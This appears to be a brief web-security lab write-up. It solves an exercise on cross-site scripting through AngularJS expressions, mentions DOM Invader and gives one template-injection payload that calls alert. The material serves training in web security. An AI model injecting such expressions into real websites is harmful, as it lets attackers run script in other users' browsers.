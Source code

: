 > To solve this lab, perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function.

I'll again make use of DOM invader to identify sinks and sources.

![picture 12](/assets/images/6237941310bdc3f93adea0b3e6847d336f1daad69f89fc25a1567350a5887905.png)  

Payload:

```
{{constructor.constructor('alert(1)')()}}
```

![picture 13](/assets/images/85a1ec7d5d56b83f53bc471e571b2806cb8c5100e036f30e98312d299d843bd8.png)  
